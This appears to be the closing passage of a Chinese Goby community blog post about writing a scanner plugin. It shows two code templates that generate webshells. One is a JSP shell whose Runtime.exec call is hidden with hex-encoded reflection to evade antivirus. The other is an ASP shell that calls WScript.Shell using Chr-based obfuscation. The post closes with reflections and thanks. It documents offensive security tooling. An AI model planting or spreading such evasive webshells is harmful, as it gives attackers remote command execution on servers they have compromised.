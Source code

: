 Jsp 基础免杀是参考的 [@yzddMr6](https://github.com/yzddMr6) 师傅的 [https://yzddmr6.tk/posts/webshell-bypass-jsp/](https://yzddmr6.tk/posts/webshell-bypass-jsp/) 文章

```
let jspshell = "&lt;%@ page contentType=\"text/html;charset=UTF-8\" import=\"javax.xml.bind.DatatypeConverter\" language=\"java\" %&gt;&lt;%Class rt = Class.forName(new String(DatatypeConverter.parseHexBinary(\"6a6176612e6c616e672e52756e74696d65\")));Process e = (Process) rt.getMethod(new String(DatatypeConverter.parseHexBinary(\"65786563\")), String.class).invoke(rt.getMethod(new String(DatatypeConverter.parseHexBinary(\"67657452756e74696d65\"))).invoke(null), \"" + wmicCMDshell + "\");%&gt; ";
```

Asp 是简单利用的 chr 字符加大写，不能免杀，希望会 asp 的师傅能够指导一下。

```
let aspshell = "&lt;%response.write server.createobject(\"wscript.sh\"&amp;Chr(69)&amp;\"ll\").ExEc(\"" + wmicAsp +"\").stdout.readall%&gt;"
```



## 0×03 总结

第一次编写插件和编写 js 文件，无疑是一次面向百度的编程，总体还是不错，学到了很多。遗憾的是 asp 并没有免杀，还希望会 asp 的师傅指导一下。这个版本很基础，很简单进行利用，所以只能在简单环境下利用，希望后面能加入更多的元素，让这个插件适应更多复杂环境。感谢 Goby 团队的 @青淮 @叶落凡尘 [@go0p](https://github.com/go0p) 师傅的帮助指导。

插件开发文档及Goby开发版下载：

[https://gobies.org/docs.html](https://gobies.org/docs.html)

关于插件开发在B站都有详细的教学，欢迎大家到弹幕区合影~

[https://www.bilibili.com/video/BV1u54y147PF/](https://www.bilibili.com/video/BV1u54y147PF/)

> 文章来自Goby社区成员：hututuZH，转载请注明出处。
下载Goby内测版，请关注微信公众号：GobySec
下载Goby正式版，请关注网址：[https://gobies.org](https://gobies.org)

[![](https://p4.ssl.qhimg.com/t0180a5827128e8b473.png)](https://p4.ssl.qhimg.com/t0180a5827128e8b473.png)
